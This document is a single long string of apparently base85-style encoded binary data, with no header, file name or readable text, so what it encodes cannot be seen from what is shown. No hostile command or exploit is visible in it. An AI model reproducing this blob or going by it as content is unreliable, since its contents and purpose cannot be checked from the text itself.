JuIAwY6>~%8#IQ#>5a*=C10BzkMonZG>@u06Z{r85C69x+%*DkeA-@X-a<Bpo|DpIGBvHRd?(6Esg3IK2H_!L$oO)&0!L>4p&)S#>L1s)5P~*IsY~_w^dOrTX+fhcV@$f+{Bj<c$hp`wOx?**R?~dmF~AJemlC9pKK9};jCxXG25JE1Dvh|=M*O!l~~q2zBv>|zX76P{70mhz%#yYR9BHJSz>iYuoE|raL~h@%=&WuTG1(wR~0v3=UI6kxlvZ|yo%s9&U3%E^=h|4fRHiMCA*cRF?2vdJh<)P0CJr&m>+?76Lvr&%U5UO@)xmf2<KtQmjEoWs*ve0t8n-8(fZ<88LC)d#&9%kX)r$3C{ae0g)8wznc4BYTSwZ4<a)z|MdHP~ZV+BzkNO1<Kq%5@J((R`k0n7-s7i0IE!3foZUTPmc^(hh+TN4;$rE%ZCkd0spE!ss*KIVzYH?4B)E_?!&nYH8Mbcy!jn%oUbNC&t-IXDxR3VP(B!o7%JkNib#a4mEoGPcfCE;L}9x~7e@v2HxNcjgTODP^5CalBme?l8VT8)QP&gBPH)PjO#0sC7txJKKH0#xFV7?LW*zdG-<`0Yd0gu5JnKe@Ge(EXKfY6`2$WWd4Hco1nT2`0rVu$)1el!}oWA~E}`DlAQ9NgVx%o$JH8ZzuN26kaS}o1>i92}H!TDdZI=;_ah$!?1*+t;5w4d_JVa-cnx7s8YaDV}13+GNmPN$K++GFWDurn{XERCt`$q``D+#w=`_@-J&|2UAjvgMIA8qI&BM(Bi7_Qu26Hzu|xSmD3SP5for)(JhT1Piv<DRHtt;BZp2PKqzL8w9>{iqto+$Nw^{S6dEq+5Df1WguV?ng{>8DLK;1ZID{`ziVp^}CsO@ImTRrhV?xX`;-O%vRNboM<{X_ju6QXdId_d1Z6js{Amh8_T#a{{8WsL~5Oy%Q<THsL-179o!(5nxVu1<f)2{SE|XgcLM2{?i3#Fdv^r~M<~#9b@Ww7)C{EJVM-c*R~l09L47pb)}GFL4=uK`{0laAr)((>)BD?bT`2o4C|+jxuA~9}i_p)pZE|nJ^2Lh#`(=hPYMJ`Vgmko_WhL_2oa+p97Xu!>fxS=aX7YAR87*nm>8hm;kWGP!uSeovHeNz{hSk(3`)#p#+>sQwu<(%?A$w@{>%euheB5Tg?Voe}r46@15q9obWkER)(AY#m-&9s9CP1xvB@djxpjs*B4uDAiI5S^Lm7{K{>v@cmsU8sX1D5IZ;(e?bI$GSX+#;#>(FXUL1iRN@lp^vBEQwCpXyLy4c=6C2^JugeOhF@c&gyv#Lf^g|b(gN`-u#I$dti2%&m|?+M6WQ*cg|C(dz|+u8Hg088}n&=z;c9kjcX>uqz1wkim3Pu(_twP`oF|LuUv)WJ0ftUKG)$`CfQwG3dMmB_1}kU@ACX7*{PG33M5IM_OgPJoW5@4CO>d`_pN+se}=J-ob#;Xp@u<eV1uyda#s<N+PTRW_?ZIhe3idO&GaIK8(m_HAzLFeN`N#Vu6neiqu=DHmumj^l!@#_2@p^Zi!HQl#<+-%_RfS{~o{_uost2|b~`qvw&uKK6mzMC2|AST(Z-kzy`jcBEpde~)|0X6;xVTH-CJEOSbHuR%N6h5<lXtkz4i_3qzwB^(367pa`Rowv$Kyxpg|;<O%9f{XEF1m~^KhM<2Rb1KnO=dVG`&yB#C=JtNN^CNI6?T?64f);LQX%{XrlJ=sWnfEJNf^s1Sb-QN6qRn4oi-$a#ey=P*4c?MTS0cUUuHewGt3`KdDdwi6D0*#>T?OdJfxOB1kZpq0&(H43ugsj0{40cmKs3VCSRk&mL;`NFmgMLR`k+T^|3A(2$3$kir}*lg)-iLtE@wL2=QO4W?4aCQI<(9G<{u56qrPw)<U5jExo(YvwVdPJe!XcV2zMOsxOwlf;<F^YP%3y7wIVRRCEOZPk>H=LYV(1A2~tQH;}c$;1u9|3EZ5P=uk&xzI5l|WG?z|xh`sCou*K#@$$zpyz!7g58F`Iswow@XC;6M+cUxU**;8{&RlAP~ZckEEUXvgz=F$?QqhsTB?rW&ppRfCzzx?xt8%cCV2Slvpc=4@t$z}xR6HJK)rTWsi)Lq*kNVD>-M1QqOVDNGFsplI!Dnc2e29_U1)Ha9<F{!e6(b*d6K`P+4g;4zy+}#&Frui@zIPV)LgwgViMn69rT6XcS{1Uv89!p1cYWd?VKljMW3<H4ViYb|RTI_}yH`gRW)^O~Ve|#C<J0_VcgVIRB^n<ZNL~GAxu#O*V{Dfrjk!Ao&H`enj`cT>tEEa06%LJ8B)Q~iBCZg7)W*9Jzw>zxkn=4KMI6A_-kmTU2c(mXith6Hd&a};Q8K0|@3a0d-c-PsAY0-;OYp8){l!KXMi;%;i{NQek%qcn+*LA?EQRBG}UDZps;Sq|pwgT+J3kv?A4*{W*S<}hfM=iu~x}1)1#|)Sr$*3?5lje_{jZXoc$hKbG&TCnag*XLg;GMvuN&5%=vy@vL2z28%|FK`bJairAUDO1#zFFXoJ70~1dcNDU7#x}{u{5nzisHS<sXGoBqLro|szRo?yIX1w5`O`e%C%V<EFn|agxtDYZ7iaEQr^aped7PX3|Hw7|N7_8wL468L2qdyFW+v87;AUXlJyoZ>)R04tg*co9-MtJmPDF3<>@4$Gt7SN0<Z>MXlcI)LjBl^mDU7{L;52mU@BAw5zyfdLRja^k?#LSYznkoAVz{Y|8`Rn!Fy{%)&(*%P{&=kMAgJ_xqyW&87>oE&ipNUIcDf5$l^NPoHe53YY_0@KU_~}L?;y($Pl}0`oJ}A>=;OFwn;~I?rL)C$V4TP2|@i08J?s8l_*Hvhr|B}+&Ag3(u7}k!0`zsPP!|le2n)=UG?EsN9}&Ejr<hkRR1#8eXo&T8NIfv#q-?Ah`tXcH3Ump&zeYeUy@A}RBpvRQ3S&kdP1M%5$gYhmP0<KWS&8IUFU5oM|rwL`tJz~bQ{17HUUaRuluj=C|d>Y$B9r1$x{Xs7gD_6<s%9nf0G%BgX8t7TYAvN7q^;Pr(i>yf`EBBY0Bd;iUo<Rig@U9d;4unqryd0w+g!Vt<xypBU;^+-t`#pVbP9&jY2BCusjd(07;ECZEydeERmUgl(i(3lem2|y<X{)(ATzqR~2FxLvjLa9Z_UJ0}5;Xn)s-L%1y#pRb}zkf9m#(hB3!>6ZSq?$K>k+!2%k<Wz1S0rwdcB*VymX5avdcxU3|zD=#jO&Q}%1$O=<`Gl?fwshM4T2;SvZk&JXgbwn#&U)Wo}eq<at4GM*;y@8NJ!nUo_mRH6SZtHT&vztk+pg4pMWs}y5pDDA?{?0Q+nEw@I23Vy!>w;`s#3I0woQF>GvT-W(bu#&jU)71Rt0WeMAsPEeQ3}wZ>6~u*had@V!WpYjw4=(w_`*bmP}j!2Ir?5z2^}i#J?~OY_eC~H)^M|(&|g!>fxsKl9lS8pmP1_G_%9)OuEwcd6-}SX7>^dqs7IOIW5L$YP$D%+OKOyj8~-{TC$v1qE8oHXw*%u}X&bFIRR`+h{2?jEo@3>tAjJZwT#RQvlE2tNpv;(dR&^+`RI^|957zf98X`#dPXBxQ+o>U@e}M?qqB1odz->sMj5V1=YBg+(My}F!*^MFb_Irz(8AYC7sn7XW3-=Js9!+J}oUG>ee<=;H2)K$k?Ee5L4esXq@(`!o9}c}ur&Gnhm)oKk1Fw|(X(q2O$WNl|C|i>K?!;6~hKEN6gcKbBR-ufA)0vzE5ib_52MJ6+<QWsttXF4-Q~P;v<ui*NR!*=|!2C)6xc|R<8}fsrW_T(C${K*i=YTrB;9C}EaSh|{MRzF{4-pg0U5q-)bl;pkO@vsQ;<t@w|D0$p;@kOn>bpgdA+VBThvtrX134u9MLkkxoBbyN*Iyn6QwyG!G`idP2^RHJ(%-7bca@4?1?lpLH<fdugg>tC`J`kEnMP(!FbrBlEG564jBdAAaG5KzYpznyD6&Nsp`25;ZuhKaT+LJ3QvR;vSv-Q+9NH|Ri`?D7>)xkcR-lTCTxLx!Nrsf=l~YE(qoO-+rC3c(n5DuynjvT(hCgP_2}S_Q-pzm-1ip<5aWdi?LpA|};#6*XX~*?OfQv<Z!TGW7eY?cfTu?f*IjauwEZ_}8Pa@mS!mf$HAmDh8C!@}^is|^H(~R&MS6^<Q;2r3nQaRs^DL8mx5h*40SwDtw$CavR6w5>qZ=NS{(Mxjn)J^Zw)^Gi;iFyiGY!v_r5jWUl;Jw>o1D$#N59RWmbjePBjZ{i%rlo(sM@-k_YIAk@ti(?<kkqK`g}zJ+v-&?ymEFVWx2GkPIaL-)yEv7_Ll%wCobOfOFLb(dIp-{&PwJp^Qxw?NlEOKobDyN($lnH8<=?>b+kkPdJ`UVZcwszX{)-eu(F`#INw;n0ahR<@>NPK*tu`DBj-xw|+%G#>IVE1EOk%1)5B8Uh8urXNcNQ@Z4G1A;&pqjqyw!NY@rL)Am-tNi?SfPH=oTF$Y?1(cB+ZxQ9=4vMMr&~bbDP7IOYr_`N>JL};U_!wTD2rwB|7`U48Ik~6?&F4=G+y0#(UF#M%!VzoJ`K1=t(p1w~W)c(A}ny*z&2v3ZG;KS3E>@ZtR(4C~)#rI0}SaBacDnNP&MM7YOIIT-we%hb?I0bL0}pZSp;0JW%|}tKro5K@ahV%KcdN{aw$kUkr6iIHoh{1~~AaYQmBMaXtlYX(Nm|1WC6~m`~CXLOQD_;F|2v>*kUSUaw?_>1Q9DFV4kj+5qLv!A>{2rr583*;n{CcQJs{@tq7g@$>ONZyjg)hX0~Y#afW<4KM1svGRbA2YL`saIMBLM2hnCn_da)HNq@#sV`=foHk;2Gm@KUIlXdN2{d)Ou#XQ^EKdQDPr)h8L#>VsLZV<ZcM9uZK%Tzdbo2G&C$ib^l{31c4wq7^@GvocNfdi2%lK^KbK`Y?)aU2|S0%*|WfJ?DaI=FQ?42Tb5z29iYyShXUp#w06ot3za6m2$g6i!F=z2*H=TuaBU8vrpw(}%W1|m6TksdM_;Y!yr%jN>;HVw2-%yr3RQJR#=Hctgi_YSslF}}uRD>qxy^w0oRSm}b`lQ>yo_$50KIEYePie@R{Z9vW!1?P0ya+1D;`~*&SR=>lU6fCIYz<t|lY~pPhG_TtTQtE{~TGvuFxKZiNWrGzKeQgS8d+4m<GDieGOjZ^$r4$s8F?mw9yXLE&hLwmL2_{V2yU!892+aw}5964~=~)PAUfF}Z^(M$Q3ZPX{d|9Dxz}A7Ds$Gqdy<5De+nU{YX?v;L0UFr1JXQ+K@9Ja3o>_)?*@{<%4C@C$4@h`h#p5vJP-{0*&G2)J5&?VhY5hIh)q>NAd1N0eEvi*18*|4yp|jnfgp!8)e@mYLR&Mo1!AM=nHO0H^TQj@>yIQlJqbYsDmNEMnuIz_5t8dp0R1*TFsj*j_&Mi?#tznV(hhi2?5a5!u7_a573VNIDa+?+c2bM*0w;TaIGM_?_;L!V0B&v;*UwLXA^vQeMyoZWZs+^Gg_oBz<p#JEtltId(`j5Aw+!vi>c6;r$$&8?(sELUQJ>0;j6Khsofu;pwzm@lQxsz!?J+GylH#xMBuT^yYngCVo?-jQ^F~Vt0B#~5)^R*77KTGr(?|n(Gm{$}#e29YQ2;pqFY<uOhv;p5K!pWLP@(@$@ga(osqqfi;DiG4)SI)<Ff_P<CGmPr`WRy~H2Ilp<q`ne+Nc*ZvnOc?r8agmDa^lfS0sUE*g&)r89aRSOzueN+ZxG5KY%t6$qX+-7e89i!W@=_|ha9f-cVk?^5;U5c_8VVSIJ7hq^6*Br(BYAy6U|CNnPh_RZMbuTe}>Tk;NZKvRNEm~^_7oQx4k(jhsckm<!9I@HaY?WQLSMKIv%~T6>SrLYph~`n*c8(%z+=rMqI=)>-HGtGWf$Us;a~}q})KPMX#+ZWa8LF-TEyZGKk-`CkyK4%kg_Rw3!Fo75hw-rLXW|Vh^QUBEHH(BA)V;ua;kL2X-ODLV(@KYvY%y%WSILKj6FQF#cSToxq-b_lJ>18H_gVO?~K*rtzz1MtEKEOZN|2(lqa1Ewa#ULw+I7iGwE5*sXo5$w^AOqE=g|e2!Y2mqfRJEIiYaKFNDD4v;~Q%2kOY!ytM%6=vqCCY&XE5tVSa{jQsh6r;u%hS@+yu_lksUHjM`q+O)CiDpyr0fusrLL%+3WiHJXs<67floX!L+kKW!_T~rQ9Z;2u)+2_`#Ht7BGjD~1T?K^^HyYqXA>ik$K27r!be#NygEPx!^%7fwc<iKl9kCGV_+i`^Lq%0DcOHn6($kJ9u`OHQ<}p#`%RI@g{D{+XYPYy+OV4df*|Y5*fINVqh3Xg*xeOcEtD-1O+tuJfG-h{CMi!I&<`<3ZhQQ(xQSOy#=xY}>7%Or*HIvr}vgbU^=yr<-h(WKhL%X^{*%P`0+SKG-9>R5@(Pu;L7DR@YIuLEVqjC^mK}*#v3{pl0m(f6Ys3o^8cO-2!HT9ZHxn-dE)`;>ZvK^#6BM)xGS;nVoQcGfm7>iI$ZGYFtm^3)=%31%syG?!JjVDi^G7H06(<9ePBDJwv6`16w$QE+Picb63H<pUa!!^fFdR*rmGijqtLPLLz!>ati{?Z46Axu%SI%80q5%jO$wv+mq8}*<XOQ6?2C2UeMv1pehGvERBQo?l3m2Q)$4F%p4kE50__f^(8-;Y8Pzl5{OowwdhiStmpa^SU_9C&RZ8s$4#aj(aNv31FfbBu`vv$S+Nw3sKqdYLs^5{ny%_rbA9m(%i8J+?r@c8+ra>G2?VqeCtrwY}-9PxJqdI6j=dW~`_tJd}mN7b}~&2#^rk0Z-dmRvYD$5v$9Yyf@M*xw*11OuDg`x#L<{nMr9D(KM1Lp8T8j{N5vjYj*4S1Akul&1pAcI|Y<a7gASQ*<han0tw`OB|^XZ6`vTbFpITc&?sgaFM&}VAqaf-5wj;5*UzBcSL%x=V<67N8B7~P5T*`5Y>>k3oaOoVyDCo!OMOF4)J{O-l$43)tFa!8CeOQV)Hsqah1_Nq_#kmGSIba-@~YhJJD8`6FJpKYQukX!RIJ95qh#E#Qri0e_u`wf4u{TORvBL0GKg5EdP70X`<PTGl)(s%M<+pD4{NSE3;Mx?BD`%@W(qk=fA4K4)&6ywCU9Ol|Axq5rw0lg(901i!p!syg(02nqtBH}!Z{+=v-irLj<kJGjdQx@S&%!6am<$GS-9<vpvzR;4|#3h1@-Aa>tO@}h5fW=K7i#;pgylpd^oQ6?{3JdNv@QKDoJG)AH0IeMalRe$b>zdi7*~!AIemLWe^^GAwdH!=uissJg<7v-(FCR7&WzI0I*R?KW>M<ih*3w`F`8qVnYvS0h^N^xwd(kC;sWclUZcHAzuR(Ffz&f)A-x|+k1v3XnDP`JkCY4G9!hb&0_tTC{Bb|?S$<Quap^~z3`^LG;BLY6X$1qC8zkvBbJ`5{xKIa$(lFqKK8-c#9TXHp3j)HLHMAsK!0hoL5r$Vhn?Tjgms-EOd|;`DjX+zigt3jMZO$4G6UVYaU-)rF=*49-4}-e88-5~P}bnFbZ!f;r`$jcK$%V{!>ta1HpIl?mV|6KH)ESHeIAd!-q)tfZny)bbW2v6oZr}LfrN8pRI2zyh@oce9P<q{_lmp`|5C3zIu4*`I_s*|hQp_cp>NUtm`_Ts3`Hk&Z?<|tu(3*H)c%po+#hh0W4O{8=2zC@p4#-F62i@OvyJ%Xv*}5WojR9<r%MqDe2HfjilH&rakPAs<gUgla{Y%Xr#o}Q3x<Xb6MjMvtoajukQzzI>NN*6eKtSJ_001wKWi<AhD1qx&=poeTAr!uuVsQmDPac+8y^lW#BfpeitbH*rC+0nw_S3wJtXBK!-JuJ!@Oyf=p~8GaO{-LxJ;(hMC^5zz9}X&d#)Z#?w4JDLa!`bRWB3I57S*xjo{_Oc(RDWh*J^FKF9mab}gp1IIF%R!SFZ-_V1Z-Njq?)K%}e)Z05|D^)e)aJ#lAX)**bGFp%}_l-f%g--p6)ZC~<BXFx)MINv%6@Mb(JQd%m^9VWZ`PE0>wT(R%p3goDdGsvAefn>KYF#b#2C|Ji3hbiA`xi5oRC+5>(%myZoZgB@)Zo0_dy7GO}`ty>H9QJ)yP_Z(gfM=Ov^@tNl6APN60Vf)0EZP<7xcf#ybhAO%2=dwc9p&Xw1q(U@^Qe^Y?j3=VQo*IT4CE`?$k~cVrKa`8=f}N0)~`|Buo}z7??Cu7SbBoU<a?%2RTrXOXDd0>XuC1pUtq$#quz#yY`<9tdRWYbAaWwbZG=5VthgNo8Hy=pF%l5j?_@JdZtzt2ZiKZF^DxrMZPq5b)cHYla6CLsi(#20b{gn8#oWiO(f;<iEZ>E|39#sE$P)BnJ$el1*bjH+Mt%0*LFBNSj!kZAE3gEwKbwceYRjHd&f_tap_v)z)lihPf@@On41N$kaa*dG1_u491Ls?M+%J%EjRMqPZd1>j$Z&B2UD0s2O&RAT7pu4tmz7yhw^d7zQOG-FZf_^Dg!Pu7HI?u}XnU?%I@eCS`~ZD{<{oRZNq^tSnbbLB6DE~vTEpckF&AT=O&o3_pi-xGt?zUs56Ddll>I=MONbeL?oBsH`BJ0y+t7<?P%w1P6|vi+pPc`6y!ohxewaY}nkfYqseuu>=VF!f&iZ<prO{La#0lSTSt}%J;C<UvKMqQ=2_X6{JT><#?1nRgeBj*LAqJ)@)eb_a39vX?bo#3X(<qU&s{NKBMWV^6!99i5zr~xjcyM{YHNzu~kGeisQA#q9OR8+)BNSeW?-J+A4~dRgRJdG_FC&y{HWEFj<N>|y6TlPGiTB-hb2<J4VLgzK8;;B#K8A8ZT3~0Ig2lL#gQuorM@|(lv-z2I0cDfH6Z-kXLa4Ip+DG~@ksz~uL6G~nS*1Qlz~7dQ%=~`r_?eDQ6J+ks!u17~MsnF27mI8W)pDGXZ?kOGX^qz15Rb`s-1-f%!d5M2-yAX;T;2XLhQMl*W+x?G<nXWMnj^kcTTIR>8yUo{uqdx}BHk~Ik*3wdq4x0OO(>}GwExAr2~fEUuxA7mvs?wx*J3H70=Z4{2X4VEsICS~#*ym@_+?k*B25nQ{keHt=*&YVC%3Canc{j&y9~&?_wbJu%#2QKzgQorpEPjMHH|F(Fty02wv9fgVR45Zk_cOX9FalwsW7RfdQZP^&4_~vghdt|P<U{(hK3|{NS!u%3dG%xL~83<Joaq(ZE)f<R7Q8?-!dpbKEG-09}lRaerNs2llxeNNqEEnu@=qpQihPE3OOD6UCT~Y@?0mX-kLEK;v`wUm<p7TQ-L5(E9oXdLKPr^+icRULxcG|<OxbB&kIeO<@$vO5?M?5eFjxc7*qx|ULxsKA;*3D71dKE_Rhgq0IF+rTJb!Lt}Ro3JM#hYZ}Op%-sa4g<jlSrq#Jl2wiKtB{o(zm2O5L)_-7H-!&c}PWKrmFUFaSvo-}z?rT{5KQu@c7g&%vO*xIA4Judko5&v1_H*;THQGdxa>lK(v`y&I-V8+<`LWp6p2Y4%AOAEQM9+Sqs?X6jd8WPj^hLx8*a~@n%O|=*WqRVzwD=KqDa@j^!>IBm6%km*_d<6p^4BHne)cb%nvXsT?hSKaJi%kte1ct`ys4qA?Fyxr!XQgv+xjzfUSffLFb}KHI>u0-pjb`NHu%N+lwX^&7V1%<8CbIta`)_)Vp|pBk`%SG6V()VS3V-*0TCJl!w5{p~>sdg{-B3_b=FtbJ$Wtl`K|c%E3oF`$8Vn-vD{lE@>t-U5Iy2^QIBiVeB%c@!*?<P437Mu+5~mKzc6Q<5c<aktuQIgPd~rKGtN{pGwCuQlumB;d%KNn>whSYsdsDH^Gn;)O7iyY-1qB6`pT}a&bSd-Nm=D=JLCiJbf%DPOb1VJ3x~3f1>g|@qaEwh${BE5etDmie{DUJXnN&LTCVLw=Xq-gx(dJg?pc*)y4Fy*gWrd_3lu4Y6S{=SrnOizo7@x+&?J5F9D5X32xY|Dm%~Tv03Jrfg9<{>~8G}~(9>b>lHs;FRzg6b^JB(uTyho0@qs-6;x%47JyNSJSm^PFb5?EJaMF(ds)L(uNK^H?4QJo;J<Pc($yy2*Ug(TMg1jz;t_t#702CBo~v&i~2NfNm4d;YU|^Lk(ge^z=^fPwz`kK2GHTh7>-V+py*BeCEn_nfeifl||@*nLWsfY^n(fTNpO|1D$fE!n4KrmKeRYkiXvwuE;ZQXEk8l4rRzuJG0X(gW<YFO=?`X5fKU!gt7;@E0JBsZ}_{%DBSQLOO6hU|Wm|HJF*FY5rh)Cs=G;lk*2&9jKy#6)J}w6E`Xg_(XKAno`CO;I`H;6*0x3K3<WJEl$#YT*qkDL&iJ^h9}7o=(=xJr*Iy5&-jgVwklIygZsXrx;zdiH}SPxX+lYC1OQ}iLq77-1uT2fOT#x!r~qqqw);ru0z60(WZ?d&U>aa#{YF>rM+f~lLXQLy{i&WP)zYDA`xkxqg(f2&srzlF&+E)&`08MU5)J9!kc0)YYcjoz=pK1l4P>xhBd@Xb3-xEenWJ`=yoh5mvlnI?URB3T0XC?5<b%w9!59ZBhU4DNj#SqgeZ05q)Os6f7fK@X3h=l><E3}<x9wlO=8;p5-YG2hx-{H(s?@*lR%+U#3Yqg;p;f1rGn?XZtO|+bG0@`QscEN1z+-NeQtX5yo<$ddjDp2zYgJ5mW2ZkN9Hf@ZWXdie$y5aHm>~hrwrg=VUXTxOqExU#tk8g&2(YG{do8FOtpF5wfJ`g2e8FW*dhDP=3=y^U!-(at(_jEZdN*z$sFrMJNaKY4Gd5&<f#E*v#R!RX&u@0MflzA}Kh-wcvZ}+TYH9TSC1%CcFH&=tg5beA+*^AT{QTil)be{`+QekON`_rgis`LQ_{Ha3c-+Ouv_M`*Q*Vv7AUF_fVXsrUwYcM-n%8RD_BRlqLMar~7WVqbt=amG6d@i3dxfaI*}*AOeC-)rM3)qsSme#18Cr=@M)AL8;}NROZv?sm4SOf>bKLl*o6#QNIk0jcNSZI0Oj%7$aRE|~--^=SR+ouF1^G`2(c_3Z(J|SYM~LaR(NsePIxb<-l`*tCi1*kcecAN=U8SOH`lBWCHH{Tas?zwiww;7T@8Sp^;Uu|67A>sr*OwVwgekPV9pSv<2`1v!TUdlSvf#oE<2%Mt++?Tr9u*xWTPpkFg}<Lg)+?J0_TG*HO?4qU@J+MRo{%3TyCAL=#d<Fp>NT9pq#y$-@NSUJ11HxbB!fe6SaZQ|uAfo4IFF~D2VJ;<zN*bP!O?a1)>z6(N`dgdV96j>(}nGKhLMK)eWS~3sY^FNFVZY!__xAyU7v2LOItw3jfv1Jho+GufNwV}b-SKSUQ_Gv?czDJi@Fb%)=16rb>4EB9BV24CLMVU{CmfvrN>OSw2fyg_(>%BTVNzk^dfbcjK<#a`;29zl&=#A8}siyd0Jb4#88Jxs=c}ftrM*sAc4?f>aO`n8mKsY{S^wFx6!<L&*M_BW|sXV%={gW=#6-`cfAAg)SIG%D_m~lk*Hkv`E;Un-U%0V^+-WTM7aogcex0GW@L@6c$gU2H(_s5cEJS_6WxCIRCG%leW%43c-==}XtN6%fS$s?2$cmmsygKHRrYRGYUirZ)!ajM%&D0s5Yjx@<=h)I7HK;L>||kA*BU`rVgrP-aXqkZHEZW<RVJY76|9=sXV$VDV$ATTKgZTj2wnDJ=zon+fRy0wR_Z}LPds^_1{HICDk`!T$!lVgQz;>LkRZ5;R%3EOajmEMc;n@{wz*~9om0;M1$i&lBL5x&xy;;9l~u}d0Q;Jkm^^B3X>H|HH{z`?l~K+K542KU_T9dNV{$qqpjCaUn7s*+Kknabp2H7_N=_~8Ocl^r!h9g-s7!tCM1_-(U~pN?GH}^e@pcud_s0+;xhF5*q+SCV6&5OUQzMy(i+kQ9MM!zLz6lA|j~p~WVU0M1lBdbd%B~(1;&+N!=nu1&{Jm&lJG+=vAe!97GXv?h>U$>kXwUu}pWZDbw~4t^XO*;}-Fa)|;QY0v)(zz7@+Q5zmTe3OV$VyCRfq(P<7J&79KYs<N&GsA-@45gvF8g(@i|Q%-4}+~4WsO-nh5j0o%9+<=*&pVwVhu*nu^*kL$25ISgXi9yh0oa7cYYN7|jNerF38QSYm2w>|!Uc37C4NRt6d&MqHtT{70tDKlLE7o>xbR?>oCrPJadr11vYR`G+TP6s>ol2V7xQ;y+pAK?x$LuHrw;D+|vne_8Auuma4PKQxw_i>&l9^Q4eXYlyd{8$cuO>AAQ2NsS21f2zdniB#{<Q!3IoE@k`!&eV<<{4tj=T3qHX0(o6n$|gpf7Ox|(+m#=pvVeII5u7+^)_=II8zt`f|FxuEvm5~633T|%%v`m3RXW&9EbHNA@cyc#0hnHYVL&Obhz4VMJ|0fJiUubM+bhqP2gZ3-ihrMk4g<>oDjfT$S}$2Di}7gXhAy_t>cSWMMuOxA(tfY<Bpo_&JV*$+FwVw4`&=DkCH{}h7@l+L*D}G!bjB1A^BK23MSDdj8Z*7_%ogW7dGdY2vtepx{7K17;w;gHW<mNcSqMqx`)Li=>8VwV7kFa;eYJk?(#MbWlz%ap)C%8Spk=vWBurTy)(jg?J49MG*5#`k##zpkmSgJ1(RULJ@<jF}uMHt4)%~*>q1}3BesX^E44Scdw3#{YA_GDTyH-IqGg;2krqYIGe4)(^ToKLFr;<dI4BFB!ZJnFRY(Sn95Q6BNu-_lG*_*IpfSCg`fX&rTN194}>_ydZpmeBH5hXqc0EWy%Y<RPoEYGRWM|{yrKV!q})>Bfxc6LP;KuIMZ<}gC2`dvv{jT~Ha(WNn-eYV~@^LXf2!P4M~sXzZCB1*RM9t32>nM?(qPT}fWOlsixvz0wVQOQr7Y6`Nir#|?+-5*rMMWoY#QD~Rw#Un<k6xlI^0-0U1=0!=k>)yOzjYD6pF7bJBi6J{$!7=@R-alPhs2twtH>tm1eDz=$mxYpz!u{kbE<t_QzH7e~sCr$Ecgo%Jo2ga)tHLar=~@^&^hRBC$M(G&)CH{W8|lU6iK0Rp#VJK3&2ej7&xV*0iki@(<69Q5#9;0oedpGR;yuP;^zt5BXc~BJ`D4NS50t~Co{$|t9VQX9Ts>~ll~w;VT~8oTi47zrvH<F+`~^YfMV;i8gCOgATIhOx<N@^CZ-<JG_wav!N`r0av<3X1>e!+^+UIb+JopL64A1xKaikbuQJbJk8&iz&QW(*NZU!7M<ld_Os*!FGK>FhO2ab6fms+1RAMm|YKNdWR3NNW=Li~KSx-a9Yj`uABJF1FEL|mq?G_m5GmN<f|_IuF0x~Y847m@a{&&%PU5<~`0K%jX(=^gHpyij^Vf31Ad`xQ0#o3-781({p&9WftvH47VJsjfTuGoC0(Dt8nIPLGrEO=SW;4!Ov0+FDSdIr<^$#*@Q(kb+1jSxioOp`K#0@awMCe<ub-Zq!blqMx{fT*kib6n(}SQO8{kn==Mv6SGE3LfZM^gx3{)LIp?aPXk+S4<5{5$WWP{M&|G^VTG<nVfPNZTmm7=3Rw>&iIo4lb;FdiZ~m61EuUW-LY&=z?KPaZpZNO8gfA@|DQFj+1`f}-#nGz~v_|;na6gK)O0)KD?$|#1(C!m7GkI2$H*Gl*{!wHK_&&o7Q;Lm9*lsJcD`uUg^gWi_Kr{gF)H^8nvDBy))ubw$zbIXk4wS}N+axEWds%M&#WHb`oPR$k9I)8w|18a+0WNZafIVPtEGcKximu|3xdO{bycp#R7;;-JsQ2?>)S5@lCa;^1amrFn=^o~97QNJgjJp>~R+!UZWkpQW6ws`(s2l00B>9rQ*|A>)1ZE7ZF-W4W2gD3*<VWBJad&c<Or3_m$Q_6Ih<-h4C+o_`P2<S6|H5$G+^Z#JZ{64YNYW)$3FUWEOyTWz{5ZH-Ie7H(MuOQ_PfKHUlfLmG<I9JDT~j0zFQ_*rZ+8W|V;p$*+h07KbW|5%D0yjaYL-2ZhyCo#J-(GcY!v?W%wK%uE58Id<}6bQ2E(p<etr=>2h!vmPEkJMM=CZnBiPN&gIz^eja8wuMOY4G!AchbJdaXS0Oh|*qTjTq<}P%3kxu{2{r$4LuUa&?hH%5aXvOUCv9HL;ST7yj%Cqa!>>@-LX7aR3hHE#ZU>t%b!AO!U>!fP{Jcq#Qdx(m2^cZ1(j9jXfZZCa9h*RR{$U>l`sZ6C*^~TROBmj0|!8G=uE_e)-k4rbCr*-MXBVQC*Y`DwJAe+)D!in6;uLuiFu5A<F<CJ?t%dJf+jWt|Ay?L!l+W_4)J5H#fN=Na+`mWk+Aq$~bomR%rU&A=;nk866hke<?k+(e9LlRV(BweP{D4bCoEpJ*Eq3KD}Jm)l3?!G7ZxHiD(fi<xC1<)HWyXV{e%Lk1G>*cWqGK!cLI#nWpl_ra*UJ8?kLCKlIPv=P=l)4cqr3&S1T+GRykk{32kfpWpUTI9qP}_S|LG4_v@lCzE@$J<$Xkjv;8xy_~<=ZCSN;}3P4@8iaZEBT9Or8o_)N=Dz*)13t9$<plfkH2fhAcb-n|x2IRbV%~Spp^IK{iMVv|KuhJgL&TtU_(<X?hOHRw<N9aJ?UzUOC;}3~h67)b-mGXi@{g*wxU|($+KFSQ@K8j0;~d!H~R?maWy>e+&glao`y5Y8M9uvi08a$*WyLO~pKbRDhCC>G-)QKIq@-zmVuF@n~sfcR7v`F36gqU_vtwDZr3>uRj1h=f=pceeF`0VuEjxj#X-)*h4FW2v{+hD@VjoIN(imHUnh4VfV=yPLw5gg9F(-v(Ew0Y1n($g`o1&t9rZ_ZqD-wT(;(+5Im8wB|)@#<sachr*)rTe`ztj75fCW;01@U(#8v#V)jRI7^Y)w5=05b_dgOLV`y@&ue3r3XNX0wN)ke>*lqH{xv!y-`C5FD0;d*&(eE(7Vi7eyxY66g_}Mp<rqqiaK7gOCz?E8{xCGP;O#=cg3idyKmtTT~_ZvgV>&L|L`XEh6DZ&pEzY0%$=?@&Xh%NL*x6>*T-JbRpz}=0)Pv6FtK0|1nZvZ4`1m0eDI|%vFMU$}VlQQ?$yiZZkG!FUjzQ>b_U;2A$cAm2sBd<g~HhYU5hJij!@{L1`fJnWwOyj||2=+KusPl#gw41{`9K*piQYwmbGI07X(9TP!ResI1+@jFZin~?(+Qs)Tp0=K^_%R$lb~n^ev%da4L9&Zm>JXsXLk=c3&Ko8@@pr5+8&YILW|f!Rk>ibli!)+&V*yu><#TSuU-fM_9@{CL;BB4&WAieok{C@jj;CJ3M5@80zj&p1iUBUqL~sfUoJ1{Lbc*?O9__*zB%9(DIYzQ1d}~5roi9wrIya